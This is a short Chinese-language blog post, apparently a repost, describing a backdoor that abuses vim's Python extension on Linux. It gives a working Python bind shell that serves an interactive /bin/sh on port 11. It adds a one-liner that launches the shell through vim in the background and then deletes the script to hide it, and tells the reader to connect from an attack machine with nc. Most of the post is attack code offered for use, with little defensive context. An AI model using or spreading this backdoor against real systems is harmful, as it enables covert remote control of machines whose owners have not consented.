

# vim python 拓展后门

> 原文：[https://www.zhihuifly.com/t/topic/3493](https://www.zhihuifly.com/t/topic/3493)

# vim python 扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统。可以通过vim的pyfile来执行python脚本。这里我复现使用了docker centos 6.8，yum默认安装的vim。下面的pdf是发现者对外公开的思路：

> https://github.com/ianxtianxt/WOTD

这里我们使用一个python开启本地监听11端口的脚本。 POC:

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True) 
```

```
$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py 
```

执行以后：




我在攻击机nc连接过去就可以了。